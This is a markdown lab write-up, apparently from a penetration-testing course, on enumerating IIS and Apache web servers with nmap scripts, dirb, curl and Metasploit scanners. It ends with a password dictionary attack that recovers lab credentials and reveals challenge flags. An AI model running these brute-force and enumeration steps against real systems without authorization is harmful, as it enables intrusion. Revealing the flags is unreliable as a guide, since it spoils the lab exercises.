# HTTP Enum

**`HTTP`** (**H**yper **T**ext **T**ransfer **P**rotocol) - a *client-server* application layer protocol, used to load web pages using hypertext links. 

A client machine makes a `request` to a server (usually from a website), which then sends a `response` message back to the client.

Default `HTTP` port is **`80`** and `HTTPS` port is **`443`**.

```bash
sudo nmap -p80 -sV -O <TARGET_IP>
```

## Lab 1

>  🔬 [Windows Recon: IIS](https://attackdefense.pentesteracademy.com/challengedetails?cid=2311)
>
>  - Target IP: `10.4.16.17`
>  - Enumeration of an `IIS` HTTP server, without the usage of a browser

```bash
nmap 10.4.16.17
	80/tcp   open  http
	135/tcp  open  msrpc
	139/tcp  open  netbios-ssn
	445/tcp  open  microsoft-ds
	3306/tcp open  mysql
	3389/tcp open  ms-wbt-server
```

```bash
nmap -sV -O 10.4.16.17
	80/tcp   open  http          Microsoft IIS httpd 10.0
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds?
	3306/tcp open  mysql         MySQL (unauthorized)
	3389/tcp open  ms-wbt-server Microsoft Terminal Services
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.91%E=4%D=2/16%OT=80%CT=1%CU=40432%PV=Y%DS=3%DC=I%G=Y%TM=63EE45E
	OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
	OS:U)OPS(O1=M546NW8NNS%O2=M546NW8NNS%O3=M546NW8%O4=M546NW8NNS%O5=M546NW8NNS
	OS:%O6=M546NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
	OS:DF=Y%T=7F%W=FFFF%O=M546NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=7F%S=O%A=S+%F=AS%RD=
	OS:0%Q=)T2(R=Y%DF=Y%T=7F%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=7F%W=0%S
	OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
	OS:Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=
	OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
	OS:=7F%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=7F%CD=
	OS:Z)
	
	Network Distance: 3 hops
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### whatweb

```bash
whatweb 10.4.16.17
```

```bash
Ignoring eventmachine-1.3.0.dev.1 because its extensions are not built. Try: gem pristine eventmachine --version 1.3.0.dev.1
Ignoring fxruby-1.6.29 because its extensions are not built. Try: gem pristine fxruby --version 1.6.29
http://10.4.16.17 [302 Found] ASP_NET[4.0.30319], Cookies[ASP.NET_SessionId,Server], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], HttpOnly[ASP.NET_SessionId], IP[10.4.16.17], Microsoft-IIS[10.0], RedirectLocation[/Default.aspx], Title[Object moved], X-Powered-By[ASP.NET], X-XSS-Protection[0]
http://10.4.16.17/Default.aspx [302 Found] ASP_NET[4.0.30319], Cookies[ASP.NET_SessionId,Server], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], HttpOnly[ASP.NET_SessionId], IP[10.4.16.17], Microsoft-IIS[10.0], RedirectLocation[/Default.aspx], Title[Object moved], X-Powered-By[ASP.NET], X-XSS-Protection[0]
```

> 📌
>
> - IIS Server version is `10.0`
> - ASP.NET version is `4.0.30319`
> - XSS Protection is `off`(`0`)
> - Default page of the target web app is `/Default.aspx`

### [httpie](https://httpie.io/)

> **`httpie`** - CLI, cURL-like tool for humans. Run with **`http`**

```bash
http 10.4.16.17
```

```bash
HTTP/1.1 302 Found
Cache-Control: private
Content-Length: 130
Content-Type: text/html; charset=utf-8
Date: Thu, 16 Feb 2023 15:11:59 GMT
Location: /Default.aspx
Server: Microsoft-IIS/10.0
Set-Cookie: ASP.NET_SessionId=ngl4kddnvb5g3dx0vol2j11q; path=/; HttpOnly; SameSite=Lax
Set-Cookie: Server=RE9UTkVUR09BVA==; path=/
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-XSS-Protection: 0

<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="/Default.aspx">here</a>.</h2>
</body></html>
```

### [dirb](https://www.kali.org/tools/dirb/)

> [**`dirb`**](https://dirb.sourceforge.net/about.html) - a Web content scanner. It *launches a `dictionary based attack` against a web server, looking for existing Web Objects and analyzing the response*. It comes with a set of preconfigured *attack wordlists*.

- Try to browse to the found directories to find out if access is granted

```bash
dirb http://10.4.16.17
```

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Feb 16 20:49:36 2023
URL_BASE: http://10.4.16.17/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
# ^ default wordlist
-----------------

GENERATED WORDS: 4612  

---- Scanning URL: http://10.4.16.17/ ----
==> DIRECTORY: http://10.4.16.17/app_themes/
==> DIRECTORY: http://10.4.16.17/aspnet_client/
==> DIRECTORY: http://10.4.16.17/configuration/
==> DIRECTORY: http://10.4.16.17/content/  
==> DIRECTORY: http://10.4.16.17/Content/  
==> DIRECTORY: http://10.4.16.17/downloads/
==> DIRECTORY: http://10.4.16.17/Downloads/
==> DIRECTORY: http://10.4.16.17/resources/
==> DIRECTORY: http://10.4.16.17/Resources/

---- Entering directory: http://10.4.16.17/app_themes/ ----
==> DIRECTORY: http://10.4.16.17/app_themes/default/
==> DIRECTORY: http://10.4.16.17/app_themes/Default/

---- Entering directory: http://10.4.16.17/aspnet_client/ ----
==> DIRECTORY: http://10.4.16.17/aspnet_client/system_web/ 
[...]
---- Entering directory: http://10.4.16.17/resources/ ----
==> DIRECTORY: http://10.4.16.17/resources/images/  
==> DIRECTORY: http://10.4.16.17/resources/Images/  

---- Entering directory: http://10.4.16.17/Resources/ ----
==> DIRECTORY: http://10.4.16.17/Resources/images/  
==> DIRECTORY: http://10.4.16.17/Resources/Images/  

---- Entering directory: http://10.4.16.17/app_themes/default/ ----
==> DIRECTORY: http://10.4.16.17/app_themes/default/images/
==> DIRECTORY: http://10.4.16.17/app_themes/default/Images/

---- Entering directory: http://10.4.16.17/app_themes/Default/ ----
==> DIRECTORY: http://10.4.16.17/app_themes/Default/images/
==> DIRECTORY: http://10.4.16.17/app_themes/Default/Images/
[...]
```



### [browsh](https://github.com/browsh-org/browsh)

> **`browsh`** - *A fully interactive, real-time, and modern text-based browser rendered to TTYs and browsers*. It's used when only command line is available or now browser is installed.

```bash
browsh --startup-url http://10.4.16.17/Default.aspx
```





> 📌 The target application is `WebGoat.net`

## Lab 2

>  🔬 [Windows Recon: IIS: Nmap Scripts](https://attackdefense.pentesteracademy.com/challengedetails?cid=2312)
>
>  - Target IP: `10.4.21.207`
>  - Enumeration of an `IIS` HTTP server using `nmap` scripts

- Use [nmap http-enum script](https://nmap.org/nsedoc/scripts/http-enum.html) to discover and enumerate web server directories

```bash
nmap 10.4.21.207
    PORT     STATE SERVICE
    80/tcp   open  http
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3306/tcp open  mysql
    3389/tcp open  ms-wbt-server
```

```bash
nmap --script=http-enum -sV -p80 10.4.21.207
```

```bash
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|   /content/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /webdav/: Potentially interesting folder
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



> 📌 Potentially interesting folders are `content`, `downloads`, `webdav`.

- Use [nmap http-headers script](https://nmap.org/nsedoc/scripts/http-headers.html) to display the *HTTP headers*

```bash
nmap --script=http-headers -sV -p80 10.4.21.207
```

```bash
80/tcp open  http    Microsoft IIS httpd 10.0
| http-headers: 
|   Cache-Control: private
|   Content-Type: text/html; charset=utf-8
|   Location: /Default.aspx
|   Server: Microsoft-IIS/10.0
|   Set-Cookie: ASP.NET_SessionId=vepmic1tb4hcstgiqdkjj3iy; path=/; HttpOnly; SameSite=Lax
|   X-AspNet-Version: 4.0.30319
|   Set-Cookie: Server=RE9UTkVUR09BVA==; path=/
|   X-XSS-Protection: 0
|   X-Powered-By: ASP.NET
|   Date: Thu, 16 Feb 2023 15:48:53 GMT
|   Connection: close
|   Content-Length: 130
|   
|_  (Request type: GET)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



> 📌
>
> - IIS Server version is `10.0`
> - ASP.NET version is `4.0.30319`
> - XSS Protection is `off`(`0`)
> - Default page of the target web app is `/Default.aspx`

- Use [nmap http-methods script](https://nmap.org/nsedoc/scripts/http-methods.html) to find supported *options/methods*

```bash
nmap --script=http-methods --script-args http-methods.url-path=/webdav/ -p80 10.4.21.207
```

```bash
PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|   Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Path tested: /webdav/
```



> 📌 Enumerated supported HTTP methods are `OPTIONS`, `TRACE`, `GET`, `HEAD`, `POST`, `COPY`, `PROPFIND`, `DELETE`, `MOVE`, `PROPPATCH`, `MKCOL`, `LOCK`, `UNLOCK`, `PUT`

- Use [nmap http-webdav-scan script](https://nmap.org/nsedoc/scripts/http-webdav-scan.html) to enumerate WebDAV installation

```bash
nmap --script=http-webdav-scan --script-args http-methods.url-path=/webdav/ -p80 10.4.21.207
```

```bash
80/tcp open  http
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/10.0
|   Server Date: Thu, 16 Feb 2023 15:58:39 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
```

## Lab 3

>  🔬 [Apache Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=539)
>
>  - Target IP: `192.199.232.3`
>  - Enumeration of an `Apache` HTTP server

```bash
ip -br -c a
	eth1@if172533   UP   192.199.232.2/24 
```

```bash
nmap -sV -sC 192.199.232.3
```

```bash
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:C0:C7:E8:03 (Unknown)
```

> 📌 Running web server version is `Apache httpd 2.4.18`

```bash
curl 192.199.232.3 | more
# or
browsh --startup-url http://192.199.232.3
```





> 📌 `Apache2 Ubuntu Default page` is hosted on the running web server.

- Perform directories bruteforce, using the [`brute_dirs`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/brute_dirs/) metasploit module. Use [robots_txt](https://www.rapid7.com/db/modules/auxiliary/scanner/http/robots_txt/) module to detect `robots.txt` files and analize its content too.

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/brute_dirs
set RHOSTS 192.199.232.3
exploit

[*] Using code '404' as not found.
[+] Found http://192.199.232.3:80/dir/ 401
[+] Found http://192.199.232.3:80/poc/ 401
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



> 📌 `dir`, `poc` directories found.

```bash
use auxiliary/scanner/http/robots_txt
set RHOSTS 192.199.232.3

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
# No /robots.txt found
```

### [curl](https://curl.se/)

> **`curl`** - *command line tool and librare for transferring data with URLs*

```bash
curl http://192.199.232.3/dir
```

```html
<title>401 Unauthorized</title>
```



```bash
curl -I http://192.199.232.3/dir
```

```bash
HTTP/1.1 401 Unauthorized
Date: Thu, 16 Feb 2023 18:00:56 GMT
Server: Apache/2.4.18 (Ubuntu)
WWW-Authenticate: Basic realm="private"
Content-Type: text/html; charset=iso-8859-1
```

> 📌 *dir* directory is using `Basic` auth protection - [WWW-Authenticate header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate)

```bash
curl http://192.199.232.3/poc
```

```html
<title>301 Moved Permanently</title>
```



- Use [`http_header`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/http_header/) metasploit module to find the *poc* directory protection

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/http_header 
set RHOSTS 192.199.232.3
set HTTP_METHOD GET
set TARGETURI /poc/
exploit

[+] 192.199.232.3:80     : CONTENT-TYPE: text/html; charset=iso-8859-1
[+] 192.199.232.3:80     : SERVER: Apache/2.4.18 (Ubuntu)
[+] 192.199.232.3:80     : WWW-AUTHENTICATE: Digest realm="Private", nonce="92BOH9X0BQA=373907c8c2a4e147272a81df61079fa305e185af", algorithm=MD5, qop="auth"
[+] 192.199.232.3:80     : detected 3 headers
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *poc* directory is using `Difest` auth protection

- Use [`http_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/http_login/) metasploit module to attempt HTTP user authentication

```bash
echo -e "alice\nbob\n" > /tmp/users
# to create "alice" and "bob" users list

msfconsole
```

```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /dir/
exploit

[*] Attempting to login to http://192.199.232.3:80/dir/
[+] 192.199.232.3:80 - Success: 'bob:qwerty'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *dir* directory credentials are `bob:qwerty`

```bash
curl -u bob:qwerty http://192.199.232.3/dir/
```

<details>
<summary>Reveal Flag - dir directory flag is: 🚩</summary>

`72af1d9471cfea41ac0ff3600b3702f6`



</details>

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit

[*] Attempting to login to http://192.199.232.3:80/poc/
[+] 192.199.232.3:80 - Success: 'alice:password1'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *poc* directory credentials are `alice:password1`

```bash
curl --digest -u alice:password1 http://192.199.232.3/poc/
```


<details>
<summary>Reveal Flag - poc directory flag is: 🚩</summary>

`0b6f98199bae51afc2f60578f923f8af`



</details>

------

